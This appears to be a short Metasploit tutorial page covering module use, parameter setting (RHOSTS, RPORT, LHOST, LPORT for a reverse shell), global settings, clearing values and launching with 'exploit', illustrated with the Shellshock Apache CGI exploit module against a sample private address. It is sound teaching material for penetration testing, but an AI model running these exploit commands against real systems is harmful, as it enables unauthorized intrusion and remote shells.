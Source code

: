To work effectively with Metasploit modules, follow these core concepts and examples. Any Metasploit version 5 or 6 will have menus and screens similar to those shown here.

#### Entering Module Context

Once you have entered the context of a module using the `use` command followed by the module name, you will need to set parameters. Use the `show options` command to list the required parameters.

```plaintext
use exploit/linux/http/apache_mod_cgi_bash_env_exec
show options
```

#### Setting Parameters

Set parameters using the `set` command:

```plaintext
set RHOSTS 192.168.1.10
set RPORT 8080
```

#### Common Parameters

- **RHOSTS**: Target IP address or range.
- **RPORT**: Target application port.
- **PAYLOAD**: Payload to use with the exploit.
- **LHOST**: Attacking machine IP address.
- **LPORT**: Port for the reverse shell.

#### Global Parameters

Use `setg` to set global values for all modules:

```plaintext
setg RHOSTS 192.168.1.10
```

#### Clearing Parameters

Clear parameters using `unset` or `unset all`:

```plaintext
unset RHOSTS
unset all
```

#### Running Modules

Launch the module using `exploit` or `run`:

```plaintext
exploit
```

Background the session with `-z`:

```plaintext
exploit -z
```

